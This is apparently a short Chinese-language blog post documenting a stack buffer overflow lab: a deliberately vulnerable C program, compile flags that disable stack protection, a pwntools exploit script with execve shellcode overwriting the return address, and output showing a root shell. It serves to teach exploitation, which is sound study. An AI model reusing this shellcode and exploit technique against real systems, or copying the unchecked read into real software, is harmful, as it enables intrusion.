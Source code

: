 ```yaml
---
layout: post
title: "buffer_overflow"
date: 2015-08-29 06:47:10 -0700
comments: true
categories: 
---
```


0x00 a.c漏洞程序

	#include<stdio.h>
	void vul()
	{
		char buf[50];
		printf("%p\n", buf);
		fflush(stdout);
		read(0, buf, 100);
	}
	int main()
	{
		puts("hello");
		fflush(stdout);
		vul();
		return 0;
	}

0x01 编译
	gcc -fno-stack-protector -z execstack -g a.c

0x02 exp脚本


	from pwn import *

	p = remote("127.0.0.1", 6666)
	#p = process("./a.out")

	print p.readuntil("hello\n0x")

	#get_addr
	jump_addr = p.read(8)
	print "jump_addr:%s"% jump_addr
	jump_addr = p32( int("0x" + jump_addr, 16) )

	shellcode  = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
	shellcode += "A" * (0x3a - len(shellcode))
	shellcode += "bbbb"    		#ebp
	shellcode += jump_addr		#eip
	p.sendline( shellcode)

	p.interactive()

0x03 得到shell

	root@jackpelf-VirtualBox:/home/jackpelf/stack# python exp.py
	[+] Starting program './a.out': Done
	hello
	0x
	jump_addr:bfd352ce
	[*] Switching to interactive mode

	$ whoami
	root
	$  
